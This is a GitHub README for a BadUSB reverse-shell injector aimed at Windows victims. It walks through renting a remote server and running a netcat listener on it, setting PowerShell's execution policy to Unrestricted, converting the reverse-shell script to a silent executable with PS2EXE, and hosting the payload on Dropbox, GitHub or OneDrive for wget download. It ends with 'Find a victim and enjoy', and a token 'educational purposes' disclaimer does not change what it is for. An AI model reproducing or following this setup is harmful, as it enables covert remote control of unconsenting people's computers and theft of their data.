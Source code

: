 # BadUSB_reverseShellInjector
# Warning ⚠️
Everything in this repository is **strictly** for educational purposes. Notice **I am not responsible** for stolen data. **You are responsible** for your actions using developed script for **BadUSB**.
# About ℹ️
This **script** allows you to take **control** of a **PC** with **reverse shell** attack.
### NB n°1 (for arduino BadUSB)
Sometimes, you will see something like this : 
``` 
Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(173);
Keyboard.releaseAll(); 
```
This is only to write these characters : "@", "\\". But it depends on the computer's layout, so adapt these characters thanks to this [site](https://www.csee.umbc.edu/portal/help/theory/ascii.txt) and the sequence you actually use to wirte these characters with your keyboard. (or switch the keyboard layout to French).
### US Layout
For US layout you only have to replace by this for "\\" :
```
Keyboard.press(92);
Keyboard.releaseAll();
```
And by this for "@" :
```
Keyboard.press(64);
Keyboard.releaseAll();
```
### NB n°2
You can customize the **delay** according to the speed in which you plug the **BadUSB**.
### NB n°3
When you plug the BadUSB in a PC you  have to wait for the caps lock to flash to unplug it.
# Getting Started ✔️
## Requirments
1. Have a **BadUSB**.

2. Install **Arduino software** [here](https://www.arduino.cc/en/software) (if you use a BadUSB which is based on arduino);

3. [Have an ssh server](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#linode);

4. [Download PS2EXE](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Have a victim with **Windows OS** installed in his PC;
## Linode
1. Create an account [here](https://www.linode.com/);

2. Go to create, linode;

3. Select Ubuntu 18.04 LTS distribution;

4. Select the region closest to where you live;

5. Select shared CPU, Nanode 1GB;

6. Choose your server label and password;

7. Create linode;

8. Now open a terminal and type the ssh access command (ssh root@your_ssh_ip_adress);

9. You are now connected to your ssh server;

10. To make your ssh server always listening type this commands :
```
screen
nc -lnvp 87 -s your_ssh_ip_adress
CTRL + A
D
```
11. Your ssh server is now listening and you can exit;

12. To resume your listening screen, just type :
```
screen -r
```
## PS2EXE
1. Go in this [link](https://github.com/MScholtes/PS2EXE) and click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Start powershell as admin and type the following commands :
```
Set-Location $env:HOMEPATH\Downloads\PS2EXE-master\Win-PS2EXE
Set-ExecutionPolicy Unrestricted -Force
Import-Module ps2exe
win-ps2exe
```

3. * Select source file (the file you want to convert).
   * Select target file (the directory where you want your file to be).
   * Select icon file (you can download some icons [here](https://iconarchive.com/)).
   * Check Supress output and Suppress error output.
   * Then click on compile button to finish the convertion.
## Install
1. Download this repository;

**Linux :**
```
git clone https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector
cd BadUSB_reverseShellInjector
```
**Windows :** Click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Replace LINK in [.txt](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.txt) at line 28 or in [.ino](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.ino) at line 93;

3. Replace LINK [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/script.ps1) at line 8 and replce IP and PORT [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/reverseShell.ps1) at line 3;

4. [Convert reverseShell.ps1 file in .exe file](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Put the .ino or .txt file in your **BadUSB**;

5. Find a victim and enjoy !
## Requirments for victim PC
* Turn off caps lock.
* Switch the keyboard layout to French (or adapt the code according to your layout).
# How to set a link for wget the script ⬇️
## Dropbox
1. Create a dropbox account [here](https://www.dropbox.com);

2. Upload your file;

3. Copy the link of the file and change ?dl=0 by ?dl=1;

4. You will get a link like this : https://dropbox.com/s/link/YOURFILE?dl=1;

5. Now put this link in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## Github
1. Create a Github account [here](https://github.com/signup);

2. Create a public repository;

3. Upload your file;

4. Go to your file page and click on RAW button;

5. Copy the RAW page link and put it in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## One Drive
1. Create a One Drive account [here](https://signup.live.com/signup);

2. Upload your file file;

3. Follow this [tutorial](https://mangolassi.it/topic/19276/how-to-configure-a-onedrive-file-for-use-with-wget)

4. Put the link you got in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt)
